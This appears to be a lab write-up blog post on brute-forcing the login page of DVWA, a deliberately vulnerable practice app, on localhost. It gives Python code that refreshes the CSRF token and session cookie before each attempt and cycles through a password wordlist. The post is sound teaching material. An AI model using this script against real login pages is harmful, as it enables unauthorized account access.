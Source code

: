 ```yaml
---
title: Brute forcing DVWA's initial login page 
slug: brute-forcing-dvwas-initial-login-page 
date: 2022-09-17 
updated_at: 2022-09-17 
description: "Although it is quite easy to see write-ups for the DVWA's brute force login challenge, hacking its actual login page may bring up some challenges for newcomers. Let's understand why and how to circumvent it"
---
```


Although it is quite easy to find write-ups for the DVWA's brute force login challenge, hacking its actual login page may bring up some challenges for newcomers. Let's understand why and how to circumvent it!

[Damn Vulnerable Web App, also known as DVWA](https://github.com/digininja/DVWA), is a PHP/MySQL web application that is purposefully vulnerable, as the name suggests, to be hacked, tested, and serves as a learning playground for people that want to practice their security skills in a legal environment.

When we set up our DVWA server (in this case, I preferred using a docker image to host it for me), and do an initial reset database it will set up and show the default credentials for us: username `admin` and password `password`, pretty common default credentials for a web server, right? However, if we could not hack, automate, and find our own way to the system, how fun would it be?

So, this is the first thing we see when we access our DVWA page:
![DVWA Login Page](/blog/assets/DVWA-Login-Page.png)

First things first, let's try to grasp this page and see if we can grab any hints that we could use, for it let's check the network tab as well. You can use another proxy to intercept requests too if you prefer.

![Highlighted requests](/blog/assets/highlighted-requests.png)

As you can see, I've highlighted some things in the image above. The request highlighted in blue is the POST request we just made trying to log in. After that, the server processes the request and redirects us to `login.php` as we can see in the red highlight, with a message of "Login failed", as shown in the yellow highlight on the left. Let's copy the post request as a [cURL](https://curl.se/) command and see how it is formed. 

![Copy request as cURL command](/blog/assets/copy-as-curl.png)

Although cURL commands are pretty useful, I don't find them easy to read, so let's transform it into a Python request and see how it looks. For that, we can use the [cURL converter website](https://curlconverter.com/python/) to do the job for us and its output will look something like this:

```python
import requests

cookies = {
    'PHPSESSID': 'fmpdptokjk1ogvashj9j5usdn4',
    'security': 'low',
}

headers = {
    ...
}

data = {
    'username': 'teste',
    'password': '123',
    'Login': 'Login',
    'user_token': 'e877712995a1d2bbae4c622fff7f9b9a',
}

response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
```

Here we can see a few interesting things in the request we made:  a cookie called `PHPSESSID ` and a parameter called `user_token`, if we try to refresh the page and log in again we'll see that both of them will have new values. `PHPSESSID` is a PHP way of setting a session cookie and `user_token` looks like a [CSRF Token](https://portswigger.net/web-security/csrf/tokens), a unique, unpredictable value that the server uses to validate the given request and properly process it if valid. Let's see what happens if we make a few requests without changing its value:

```python
for _ in range(1, 3):
    response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
    print(response.content)
    print("==============")
```

The output we have is:

![Print screen of the invalid CSRF output](/blog/assets/invalid-csrf-token.png)

After the first request, you'll probably see we have a `CSRF token is incorrect` message within its body content, so this confirms our theory! So what can we do to get around it and be able to automatize our requests? 

First of all, we've already seen that every time we load the page a new token is generated for us, we can use that for getting a new token before every new request we make, so let's try making a `GET` request and see what we get.

```python
response = requests.get('http://localhost/login.php')

print(response.content.decode('UTF-8'))
```

And we'll get a tag like this within our response:

```html
<input type=\'hidden\' name=\'user_token\' value=\'faaf19846a466a9f328f2a43a06cfdb6\' />
```

So we can probably extract that using a [regex](https://en.wikipedia.org/wiki/Regular_expression). Let's try that

```python
def get_user_token(body):
    return re.search("user_token\\\' value=\\\'(.+)\\\'", body).group(1)
```

Let's also get the `PHPSESSID` cookie, since we're already getting data from the new request. It is in the Headers, however, we can do it a little bit easier than the token.

```python
def get_phpsessid(headers):
    return headers['Set-Cookie'].split(';')[0].split('=')[1]
```

And wrap up everything into a single function

```python
def set_request_tokens():
    response = requests.get('http://localhost/login.php')
    cookies['PHPSESSID'] = get_phpsessid(headers=response.headers)
    data['user_token'] = get_user_token(body=response.content.decode('UTF-8'))
```

Let's set a small wordlist of passwords so we can test if we find a successful login.

```python
PASSWORDS = [
    "teste",
    "admin",
    "password",
    "tentativa",
    "aloha",
    "ihuuuu",
    "qwerty",
    "qw12er34ty56"
]
```

so, just to finish our little script, let's build the last function to do the dirty work for us.

```python
def brute_force():
    for password in PASSWORDS:
        set_request_tokens()
        data['password'] = password
        response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
        
        if 'Login failed' in response.content.decode('UTF-8'):
            continue

        print("=================")
        print("Successful Login!")
        print("Credential Found:")
        print(f"- Username: {data['username']}")
        print(f"- Password: {data['password']}")
        print("=================")
```

This function iterates over the PASSWORDS list we've defined earlier, sets the tokens we need for every new request, and, finally, does the request. After that, we check if there's a `Login failed` message within the response content to see if we succeeded or not and then print out the credentials found. The final output will look like this:

![Script output Result](/blog/assets/script-output.png)

## Conclusion

And that will be it! Although it's a very simple hacking problem, some people might run into trouble dealing with those tokens and not understand what's going on. Especially when we try to use tools such as Burp Suite or [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) for brute forcing it, since the results may not be consistent if not set up correctly. You can find the whole script in my [Github](https://github.com/davidpalves/writeups/blob/main/dvwa/dvwa-login.py).

Feel free to comment below with any questions, suggestions, or relevant points you might have!
